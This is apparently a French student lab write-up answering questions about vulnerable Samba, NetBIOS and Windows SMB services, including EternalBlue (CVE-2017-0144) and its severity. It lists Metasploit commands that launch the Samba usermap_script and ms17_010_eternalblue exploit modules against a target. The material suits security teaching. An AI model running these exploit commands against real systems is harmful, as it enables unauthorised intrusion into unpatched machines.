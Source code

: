 ``use exploit/multi/samba/usermap_script``

``set RHOST IP``

``exploit``
![alt text](image-20.png)

-	Quelle est le software/version spécifique du service NetBIOS ?
``139/tcp open netbios-ssn (workgroup: WORKGROUP)``

-	Quelles sont les vulnérabilités qui touchent cette version ?
``La même vulnérabilité que SMB.``
          
## Sécurité Windows :

-	Quel est l’ID (CVE) de la vulnérabilité EternalBlue ? 
``CVE-2017-0144``
-	Quelle est la sévérité de cette vuln ? (criticité + CVSS) 
``La sévérité de cette vulnérabilité est critique avec un score CVSS de 9.3.``
``AV:N/AC:M/Au:N/C:C/I:C/A:C``

-	Quel est le service Windows qui est affecté par cette vulnérabilité ? 
``Le service Windows affecté par cette vulnérabilité est le service SMB (Server Message Block).``

-	Comment exploiter cette vulnérabilité ? 
``Pour exploiter cette vulnérabilité, un attaquant peut envoyer des paquets malveillants au service SMB pour exécuter du code arbitraire et prendre le contrôle du système.``

## Exploitation de la vulnérabilité EternalBlue :
Pré-requis :
-	Windows 7 SP1 x64
- Pas de pare-feu ou désactivé
- Pas de mise à jour de sécurité

**``On peux utiliser Metasploit pour tester cette vulnérabilité, cependant on peux aussi utiliser WannaCry ou NotPetya, qui sont des ransomwares qui exploitent cette vulnérabilité, mais c'est illégal.``**

``msfconsole``

``use exploit/windows/smb/ms17_010_eternalblue``
